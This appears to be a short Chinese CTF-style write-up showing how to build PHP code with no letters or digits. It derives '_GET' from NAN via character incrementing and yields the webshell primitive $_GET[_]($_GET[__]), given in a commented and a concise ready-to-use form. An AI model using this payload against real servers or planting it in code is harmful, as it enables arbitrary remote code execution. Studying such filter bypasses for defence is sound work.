 因为`0/0`得到`NAN`字符串，所以`GET`应该也挺好构造，尝试一下`$_GET[_]`,`$_GET[__]`

我的构造过程

```php
<?php
# 三个下划线定义N，四个定义A，五个定义E，六个定义G，七个定义T，八个定义_GET。当然你可以选择变量覆盖
$___=((''/'').'')[''==_];# $___ = N
$____=((''/'').'')[''==''];# $____ = A
# 拿A 构造E
++$____;
++$____;
++$____;
$_____=++$____; 
var_dump($_____); # $_____ = E
# 继续拿G
++$____;
++$____;
$______ = $____;
var_dump($______); # $______ = G

# 拿N 构造 T
++$___;++$___;++$___;++$___;++$___;
$_______=++$___;
var_dump($_______);# $______ = T

# 拼接拿_GET
$________='_'.$______.$_____.$_______;
var_dump($________); # _GET
# 用_GET动调函数
$$________[_]($$________[__]);
var_dump($$________[_]($$________[__]));
```

简洁版
```php
<?php
$___=((''/'').'')[''==_];# $___ = N
$____=((''/'').'')[''==''];# $____ = A
++$____;
++$____;
++$____;
$_____=++$____; # $_____ = E

++$____;
++$____;
$______ = $____; # $______ = G

++$___;++$___;++$___;++$___;++$___;
$_______=++$___; # $______ = T# 

$________='_'.$______.$_____.$_______;
$$________[_]($$________[__]); # $_GET[_]($_GET[__])
```
